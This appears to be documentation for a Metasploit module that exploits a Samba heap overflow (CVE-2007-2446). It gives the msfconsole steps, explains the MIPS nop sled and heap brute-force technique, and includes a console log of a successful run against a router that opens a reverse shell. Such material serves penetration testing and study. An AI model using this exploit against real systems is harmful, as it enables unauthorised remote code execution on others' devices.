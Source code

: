 ## Vulnerable Application

  Samba 3.0.0 through 3.0.25rc3 are vulnerable to multiple heap overflows. This module targets a heap overflow in the LsarLookupSids RPC call (CVE-2007-2446), causing an overflow in the function lsa\_io\_trans_name().

  The exploit uses the heap overflow to overwrite a function pointer contained in the metadata of the TALLOC memory allocator, a technique which only works on Samba versions 3.0.21-3.0.24.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/samba/lsa_transnames_heap`
  3. Do: `show targets` to see the possible targets
  4. Do: `set target #`
  5. Do: `set rhost`
  6. Do: `exploit`

## MIPS port

  This module was ported to exploit the MIPS architecture. After creating a suitable debugging environment using qemu to emulate Samba on a desktop PC the following steps were required:

### MIPS nop generator

  The exploit uses a heap overflow to put a large nop sled in memory to decrease the accuracy needed in the initial redirection of code flow. A nop sled is a large section of contiguous instructions which do nothing. When code flow is redirected to a nop sled it will continue executing the effect-less nops. At the end of the sled the true payload is added and execution will eventually hit this code.

  A nop generator module was created for MIPS by creating a stream of random instructions which create no side-effects e.g. `sll $2, $2, 0`

### Heap address brute force

  The exploit uses a brute force approach to minimize problems with unpredictability in heap layout. The exploit itself is run multiple times, each time targeting a different point in the heap with the change of execution flow. If all goes correctly, the nop sled will be hit and code execution will follow. If the nop sled is missed, the Samba process is likely to crash, which is generally not a problem as a new instance is forked for each incoming connection. In the event of a crash, a new heap address is chosen and exploitation is attempted again.

  When porting the exploit to a new system, the approximate heap layout must be known in order to suitably attempt exploitation across all of the possible heap locations. As the MIPS port targeted a specific router, the heap layout was determined by examining the ranges identified in _/proc/<pid>/maps_

## Scenarios

    msf > use exploit/linux/samba/lsa\_transnames_heap
    msf exploit(lsa\_transnames_heap) > set target 7
    target => 7
    msf exploit(lsa\_transnames_heap) > set rhost 192.168.1.1
    rhost => 192.168.1.1
    msf exploit(lsa\_transnames_heap) > show options

    Module options (exploit/linux/samba/lsa\_transnames_heap):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST    192.168.1.1      yes       The target address
       RPORT    445              yes       The SMB service port
       SMBPIPE  LSARPC           yes       The pipe name to use


    Exploit target:

       Id  Name
       --  ----
       7   Linux Heap Brute Force (OpenWRT MIPS)


    msf exploit(lsa\_transnames_heap) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] 192.168.1.1:445 - Creating nop sled....
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55900000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x5590f000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected

    ...Some intermediate attempts omitted...

    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55996000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x559a5000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.1:4175) at 2016-10-31 14:00:33 +0000

    uname -a
    Linux WNR2200 2.6.15 #1 Mon Dec 23 15:58:24 CST 2013 mips unknown

